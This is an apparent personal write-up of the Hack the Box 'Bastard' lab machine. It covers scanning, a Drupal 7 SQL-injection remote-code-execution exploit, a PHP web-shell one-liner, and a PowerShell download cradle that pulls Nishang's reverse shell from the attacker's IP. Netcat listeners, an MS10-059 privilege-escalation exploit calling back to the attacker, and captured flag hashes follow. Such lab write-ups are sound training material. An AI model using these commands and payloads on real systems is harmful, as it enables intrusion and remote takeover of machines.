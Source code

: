 ```yaml
---
title: Bastard - Hack the Box
date: 2024-10-13 12:37:45 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/Bastard.png
---
```

![Image](/assets/Bastard.png)

Bastard is a box that is initially frustrating. This machine tests ones ability to enumerate thoroughly AND simply, transfer files in different ways, and doctor downloaded exploits to suit one's needs. 

### Scan
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-12 07:24 EDT
Nmap scan report for 10.10.10.9
Host is up (0.12s latency).
Not shown: 997 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
49154/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 9.68 seconds



---------------------Starting Nmap Basic Scan---------------------
                                                                            
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-12 07:24 EDT
Nmap scan report for 10.10.10.9
Host is up (0.12s latency).

PORT      STATE SERVICE VERSION
80/tcp    open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-generator: Drupal 7 (http://drupal.org)
|_http-server-header: Microsoft-IIS/7.5
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-title: Welcome to Bastard | Bastard
135/tcp   open  msrpc   Microsoft Windows RPC
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 65.53 seconds

```

### Enumeration

![Image](/assets/Screenshot 2024-09-14 at 12.39.22 PM.png)

We are greeted with a login portal when we visit the sight. Trying a few common credentials yield no access, so I opted to look through the `feroxbuster` scan I had running in the background. Most of the directories are off limits with a `403 Error`, meaning that we'll need to find something else.

Doing research, I looked at my `nmap` scan again to see version numbers of the services running. This is a part of the simple, yet thorough enumeration that we need to "make haste slowly." `Microsoft IIS 7.5` didn't yield much compared to what I found for `Drupal 7`, which yielded a RCE vulnerability.

![Image](/assets/Screenshot 2024-09-14 at 12.45.19 PM.png)

We can cross check this with `exploit-db 41564` or `searchsploit Drupal` and sure enough, we've got a script here that uses SQL injection to get the contests of the cache for the current endpoint along with the admin hash and credentials. Then, the script alters the cache to allow file writing, and follows this up by posting a POC at the designated endpoint. 

![Image](/assets/Screenshot 2024-09-14 at 12.51.49 PM.png)
![Image](/assets/Screenshot 2024-09-14 at 1.14.43 PM.png)

We know the URL, and we know that we'll need to use a PHP one-liner to get our remote code execution ability, but we need to figure our where the API endpoint is. `/rest_endpoint` is not available on the box, but `/rest`is! There are two ways to figure this out. Trial and error is how I came upon it, but using a directory busting tool works as well, providing you give it the time!

We want to use the POC instead to write a PHP one-liner that grants us RCE on the machine. So, we can substitute with this in order to make sure our uploaded file works:

`'<?php system($_REQUEST["cmd"]); ?>'`

Also, don't forget to alter the endpoint! The completed script should look like this, with emphasis on the url, endpath, and file:

![Image](/assets/Screenshot 2024-09-14 at 1.31.26 PM.png)

### Initial Access

Before we run our exploit, we also need to make sure that we've installed php-curl on our machine. We can use `apt-get install php-curl`. Now, we can run our exploit with `php 41564.php`

![Image](/assets/Screenshot 2024-09-14 at 1.32.28 PM.png)

We get an endpoint that tells us where the file's been written. When we visit, make sure to bring up the request in Burp, where we can edit our requests in real time. Append your malicious file name with `?cmd=systeminfo`, and we can see that our attempt for RCE has worked!

![Image](/assets/Screenshot 2024-09-14 at 1.38.02 PM.png)

One thing to note... We've got two files noted `session.json` and `user.json`. These provide cookie information and a username and hashed password for the administrator account. We could take these and try to gain access this way, but we've already got a shell... Maybe another day.

Ok, so now, we can call for a real shell, and the easiest way to do this is with Nishang's Invoke-PowerShellTcp, as we're dealing with an x64 Windows Machine and we want as much functionality as possible. Let's edit the file to include the correct parameters for our future listener.

Add `Invoke-PowerShellTcp -Reverse -IPAddress 10.10.4.3 -Port 4444` to the very end of the file. You can copy in the `vim` editor with `yy` and paste with `d`. 

Once we have our file ready, we need to serve it with a Python server from the same directory that it lies, and set up a wrapped listener:

`python3 -m http.server 8000`
`rlwrap nc -nlvp 4444`

Let's get back and use Burp to create our request. MAKE SURE TO URL ENCODE. Additionally, make sure that the spelling is exact when posting the file and path - capitalization and all :

`powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.3:8000/Invoke-PowerShellTcp.ps1')`

![Image](/assets/Screenshot 2024-09-14 at 2.44.26 PM.png)

We should get access on our listener.

![Image](/assets/Screenshot 2024-09-14 at 2.44.45 PM.png)

We can navigate to `/Users/dimitris/Desktop` in order to find our user flag.

`USER:d187f6b9f9bc6b5df88b7f607e720776`

### Privilege Escalation

In order to escalate, we can check things out with `ps`  and `systeminfo`. We can also serve an enumeration script from our Kali machine. I like `winpeas` and `winenum`, but for this case, `sherlock` was the best option, as it gave us a list of possible CVE's, which are very common on these lab machines.

Find Sherlock with `locate Sherlock.ps1` and bring it to the working directory. Serve the file with our SMB server this time, and download on the victim machine. Locate `"smbserver.py` first (usually in Impacket) and move it to working directory before running these commands:

`KALI - python3 smbserver.py share /home/li0t/Desktop/HTB/Bastard`
`VICTIM - copy \10.10.14.3\share\Sherlock.ps1`

Now, no matter how hard I tried, I couldn't get permission on the victim machine to download files and run them, so I took a page from Rana Khalil and exported `systeminfo` into the `windows-exploit-suggester` on my Kali machine. To do this, we need to update our tool and query the database. First, copy the script to `pwd`:

`./windows-exploit-suggester.py --update`
`./windows-exploit-suggester.py -d 2024-09-14-mssb.xls -i sysinf.txt`

Now, we can get MS tags for exploits, and run through them to see if any work. 

![Image](/assets/Screenshot 2024-09-14 at 3.22.52 PM.png)

We'll go with this one, MS10-059, as I've tried unsuccessfully with Kernel exploits here before. There is a compiled version that can be found on github [here](https://github.com/egre55/windows-kernel-exploits/tree/master/MS10-059:%20Chimichurri/Compiled) Once this is in our working directory, or the same place as our SMB server, we can share between the systems. I think it's important to note, I've only gotten this machine rooted with this .exe file used in this context. Even my privesc scripts of the same type don't register, and I dunno why...

Once we're ready, set up a listener 

`rlwrap nc -nlvp 4445`

Then, go onto the compromised machine and use:

`\10.10.14.3\share\FILE.exe 10.10.14.3 4445`

![Image](/assets/Screenshot 2024-09-14 at 3.38.47 PM.png)

Cooking.

`ROOT:b3056a76131b8c975a906cff1283ba05`

#windows #manual #medium
